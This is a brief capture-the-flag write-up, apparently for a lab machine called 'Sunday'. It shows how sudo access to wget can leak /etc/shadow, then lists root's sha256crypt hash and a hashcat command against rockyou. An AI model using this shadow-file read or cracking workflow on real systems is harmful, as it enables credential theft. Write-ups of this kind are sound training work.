




Index
sudo wget -i /etc/shadow
when wget downloads a file, it lists it, effectively leaking its contents to us, lets get started by downloading Sunday's /etc/shadow file to try and crack its hash
Lets make it easier on the eyes with awk
wget -i /etc/shadow 2>&1 | awk ‘{print $4};'

we know root's hash for potential brute force:
also looking up the hash prefix from hashcat's hash examples, we see that it is a sha256crypt hash, so we'll use module 7400 in our brute force

$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD
we'll save sunny, sammy and root's hashes in a text file for our hashcat bruteforce

hashcat -m 7400 hashes /usr/share/wordlist/rockyou.txt

unfortunately root's password hash is not on the rockyou list